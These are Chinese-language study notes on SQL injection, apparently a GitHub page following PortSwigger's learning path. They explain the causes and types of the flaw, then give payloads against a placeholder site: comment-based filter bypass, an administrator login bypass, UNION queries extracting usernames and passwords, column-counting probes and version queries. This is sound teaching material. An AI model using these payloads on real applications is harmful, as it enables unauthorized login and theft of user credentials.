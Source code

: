 > 根据portswigger网站的推荐学习顺序，学习网络安全漏洞

![image-20220113221638178](https://raw.githubusercontent.com/lant34m/pic/main/image-20220113221638178.png)

![image-20220113221650975](https://raw.githubusercontent.com/lant34m/pic/main/image-20220113221650975.png)

![image-20220113221700751](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20220113221700751.png)

![image-20220113221708824](https://raw.githubusercontent.com/lant34m/pic/main/image-20220113221708824.png)

# SQL 注入

> SQL injection is an old-but-gold vulnerability responsible for many high-profile data breaches. Although relatively simple to learn, it can potentially be used for some high-severity exploits. This makes it an ideal first topic for beginners, and essential knowledge even for more experienced users.
>
> SQL注入是一个老而弥坚的漏洞，对许多高知名度的数据泄露事件负有责任。虽然学习起来相对简单，但它有可能被用于一些高风险的漏洞。这使得它成为初学者理想的第一个主题，甚至对更有经验的用户来说也是必不可少的知识。

![image-20220114161003494](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20220114161003494.png)

SQL注入漏洞允许攻击者干扰应用程序对其数据库的查询。它通常允许攻击者查看通常不能检索的数据，包括其他用户的数据或数据库相关信息。在许多情况下，攻击者可以修改或删除这些数据，导致网站应用程序内容或行为发生==持久性变化==。

在某些情况下，攻击者可以损害底层服务器或其它后端设施或进行拒绝服务攻击。

## 造成SQL注入漏洞的主要原因

前端的数据传入到后端处理时，没有做严格的判断，导致其传输的代码拼接到SQL语句中，被当做SQL语句的一部分执行。

## SQL注入的种类

- 数字型注入
- 字符型注入
- 搜索型注入
- xx型注入
- insert/update注入
- delete注入
- http header注入
- 盲注 base on boolean
- 盲注 base on time
- 宽字节注入

也可以分为

- 修改一个SQL查询返回额外的结果
- 改变SQL查询语句干扰网站应用程序逻辑
- UNION拼接检索不同数据库和表信息
- 数据库的版本和结构的信息
- 盲注，即查询的结果不应在网站返回的响应中

## 详解

### 修改一个SQL查询返回额外的结果

有一个购物网站以不同的种类展示商品，当用户点击商品时，浏览器的URL是

```
https://insecure-website.com/products?category=Gifts
```

这个会调用后端一个SQL语句从数据库中查询信息。

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

这个SQL语句会向数据库中products表请求所有类别是Gifts类别和released列值为1的所有商品信息。

如果网站没有任何针对SQL注入攻击的防御措施，可以构建一个如下语句

```
https://insecure-website.com/products?category=Gifts'--
```

当前端传回至后端执行SQL语句时，

```sql
SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
```

--在数据库中被用于注释后面所有内容，这有效的删除了后端构造SQL语句的其余部分，所以可以将released列的限制去除。

```
https://insecure-website.com/products?category=Gifts'+OR+1=1--
```

上面的URL被传入后端的SQL语句是

```sql
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
```

### 改变SQL查询语句干扰网站应用程序逻辑

用户登录界面时，用户通过用户名和密码登陆。以下是可能的SQL语句

```sql
SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'
```

在已知用户名的情况下，可以通过注释将密码查询注释掉。即

```sql
SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
```

该行为可直接作为管理员用户登陆。

### ==UNION拼接检索不同数据库信息==

在网站应用程序返回SQL语句结果时，可以利用SQL注入从数据库中获取其他信息。

使用UNION联合查询执行额外的SELECT语句

```sql
SELECT name, description FROM products WHERE category = 'Gifts'
```

执行UNION语句

```sql
SELECT name, description FROM products WHERE category = 'Gifts' UNION SELECT username, password FROM users--'
```

查询到了user表中的username和password

#### 要求

- 每个查询必须返回相同数量的列
- 每列中的数据类型必须在各个查询之间兼容

通常需要在构造语句前了解

- 原始查询返回了多少列
- 原始查询的哪些列可以保存注入查询的结果

#### UNION使用说明

1. 确定SQL注入UNION攻击所需的列数

   - 使用ORDER BY语句递增，直至发生错误。

     ```mysql
     ' ORDER BY 1--
     ```

     这个有效载荷改变了原始查询语句，以结果集中不同列对结果排序查询。当指定列的索引超过结果集中的实际列数时，数据库将返回错误。

   - 提交一系列有效载荷，指定不同数量的NULL。

     ```sql
     ' UNION SELECT NULL--
     ' UNION SELECT NULL,NULL--
     ' UNION SELECT NULL,NULL,NULL--
     ```

     当NULL与列数不匹配时，数据库将返回错误。

   - ==注意==

     - 使用NULL作为注入SELECT查询的返回值是因为，每列的数据类型必须在原始查询和注入查询之间兼容。NULL可以转换为任意数据类型，当列数正确时，使用NULL可以最大限度提高有效载荷的成功率

     - Oracle上每个SELECT查询都必须使用FROM关键字并指定一个有效的表。在Oracle中有个dual内置表。故查询语句为

       ```sql
       ' union select null from dual--
       ```

     - 在Mysql中--后必须有空格，或直接使用#注释

2. 在SQL注入中通过UNION查找有用数据类型列
   首先需要用

   ```sql
   ' UNION SELECT NULL--
   ' UNION SELECT NULL,NULL--
   ' UNION SELECT NULL,NULL,NULL--
   ```

   确定返回列数。随后通过使用所需类型替换NULL进行测试。
   如

   ```sql
   ' UNION SELECT 'a',NULL,NULL,NULL--
   ' UNION SELECT NULL,'a',NULL,NULL--
   ' UNION SELECT NULL,NULL,'a',NULL--
   ' UNION SELECT NULL,NULL,NULL,'a'--
   ```

   若不兼容，可能返回HTTP错误或数据库查询错误。

   ```sql
   Conversion failed when converting the varchar value 'a' to data type int.
   ```

   若未发生错误则包含一些附加内容（包括注入的字符串）。

3. 通过SQL注入查询特定数据
   当确定了原始SQL语句查询返回的列数和类型时，可以检索特定表中的符合类型的内容

4. 检查单个列中的多个值
   当想查询信息和列数不匹配时，使用字符串串联的格式将两个值连接在一起。

5. | Oracle     | `'foo'||'bar'`                                               |
   | :--------- | ------------------------------------------------------------ |
   | Microsoft  | `'foo'+'bar'`                                                |
   | PostgreSQL | `'foo'||'bar'`                                               |
   | MySQL      | `'foo' 'bar'` [Note the space between the two strings] `CONCAT('foo','bar')` |

### 查看数据库信息

在确定SQL注入存在时，获取数据库信息是目标之一，便于后续操作。

可以查询版本信息

| Oracle     | `SELECT banner FROM v$versionSELECT version FROM v$instance` |
| :--------- | ------------------------------------------------------------ |
| Microsoft  | `SELECT @@version`                                           |
| PostgreSQL | `SELECT version()`                                           |
| MySQL      | `SELECT @@version`                                           |

还可以确定存在哪些数据库表，以及包含那些列。在大多数数据库中可以执行

```sql
SELECT * FROM information_schema.tables
```


